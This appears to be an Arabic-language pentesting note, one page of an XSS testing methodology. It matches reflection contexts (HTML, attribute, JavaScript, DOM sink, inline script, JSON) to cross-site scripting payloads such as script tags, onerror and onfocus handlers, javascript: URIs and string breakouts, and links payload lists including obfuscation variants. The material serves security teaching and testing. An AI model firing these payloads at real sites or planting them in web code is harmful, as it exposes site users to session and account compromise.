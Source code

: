 
### 1. لو الكلمه اللي كنت حطيتها في الخطوه السابقه ظهرت في ال HTML Context

##### - **الـ Payload المناسب:**  
  في سياق HTML، تحتاج إلى payload يكسر بنية HTML ويسمح بتنفيذ JavaScript. أمثلة:  
  - `<script>alert('XSS')</script>`  
    ##### إذا ظهر كـ:  
    ```html
    <div><script>alert('XSS')</script></div>
    ```
    سيتم تنفيذ السكربت مباشرة إذا لم يكن هناك تصفية (sanitization).  
  - `<img src=x onerror=alert('XSS')>`  
    هذا يكسر بنية HTML ويستخدم حدث `onerror` لتنفيذ JavaScript.
#### البايلودز اللي هتستخدمها هنا 
##### 1. 

![[script_tag_payloads.txt]]

##### 2. 
![[Basic_payloads.txt]]

##### 3. 

![[unique_tag.txt]]

##### 4.

![[Markdown-Formatted Payloads.txt]]

------
### 2. لو الكلمه اللي كنت حطيتها في الخطوه السابقه ظهرت في ال  Attribute Context 

##### - **الـ Payload المناسب:**  
  تحتاج إلى payload يكسر بنية السمة (attribute breakout) ويسمح بتنفيذ JavaScript. أمثلة:  
  - لسمة `value`:  
    ```html
    " onfocus="alert('XSS')"
    ```
    إذا أصبح:  
    ```html
    <input type="text" value="" onfocus="alert('XSS')"">
    ```
    سيتم تنفيذ السكربت عند التركيز على الحقل.  
  - لسمة `href`:  
    ```html
    javascript:alert('XSS')
    ```
    إذا أصبح:  
    ```html
    <a href="javascript:alert('XSS')">Link</a>
    ```
    سيتم تنفيذ السكربت عند النقر على الرابط.

#### البايلودز اللي هتستخدمها هنا 
##### 1. 
![[Event Handler Payloads.txt]]

##### 2. 
![[xss -for - attribute .txt]]

##### 3. 
![[Basic_payloads.txt]]


------
### 3. لو الكلمه اللي كنت حطيتها في الخطوه السابقه ظهرت في ال JS Context

##### - **الـ Payload المناسب:**  
  تحتاج إلى payload يكسر بنية JavaScript ويسمح بتنفيذ كود. أمثلة:  
  - لكتلة `<script>`:  
    ```html
    ";alert('XSS');//
    ```
    إذا أصبح:  
    ```html
    <script>
      var userInput = "";alert('XSS');//";
    </script>
    ```
    سيتم تنفيذ السكربت.  
  - لسمة حدث:  
    ```html
    ');alert('XSS');//
    ```
    إذا أصبح:  
    ```html
    <div onclick="handleClick('');alert('XSS');//')">Click me</div>
    ```
    سيتم تنفيذ السكربت عند النقر.  
  - لـ JSON:  
    ```html
    ", "x": alert('XSS')
    ```
    إذا تم استخدامه في `eval()`، سيتم تنفيذ السكربت.
#### البايلودز اللي هتستخدمها هنا 
##### 1. 

![[script_tag_payloads.txt]]
##### 2. 
![[Basic_payloads.txt]]
##### 3. 

![[xss-without-alert-confirm-prompt.txt]]

##### 4.
![[xss-without-alert.txt]]


-----
### 3. لو الكلمه اللي كنت حطيتها في الخطوه السابقه ظهرت في ال  DOM Sink Example

- **الـ Payload المناسب:**  
  يعتمد على نوع الـ DOM Sink:  
  - لـ `innerHTML` أو `document.write`:  
    ```html
    <script>alert('XSS')</script>
    ```  
  - لـ `eval` أو `setTimeout`:  
    ```javascript
    alert('XSS')
    ```  
  - لـ `location.href`:  
    ```javascript
    javascript:alert('XSS')
    ```
#### البايلودز اللي هتستخدمها هنا 
##### 1. 
![[Dom_payloads.txt]]
##### 2. 

![[Img_tag_payloads.txt]]

##### 3. 
![[Event Handler Payloads.txt]]

##### 4.

![[div_interactive_payloads.txt]]

---
### 4. لو الكلمه اللي كنت حطيتها في الخطوه السابقه ظهرت في ال Inside `<script>` Tag

- **الـ Payload المناسب:**  
    لما المدخل يتحقن مباشرة داخل سكريبت بدون string:
    
    ```html
    <script>
      alert(1)// payload هنا مباشرة
    </script>
    ```
    

#### البايلودز اللي هتستخدمها هنا:
##### 1. 

![[script_tag_payloads.txt]]

##### 2. 

![[miscellaneous_payloads.txt]]

---


### 5. لو الكلمه اللي كنت حطيتها في الخطوه السابقه ظهرت في ال JSON

- **الـ Payload المناسب:**  
    لما يتم عرض المدخل داخل JSON وعايز تكسره:
    
    ```javascript
    {"name":""}];alert(1);//{"x":"y"}
    ```
    

#### البايلودز اللي هتستخدمها هنا:
##### 1. 
![[JSON payloads.txt]]

##### 2. 
![[xss-encoding-payload.txt]]

##### 3. 

![[XSS_Obfuscation_payloads.txt]]

##### 4.

![[xss-url.txt]]


---

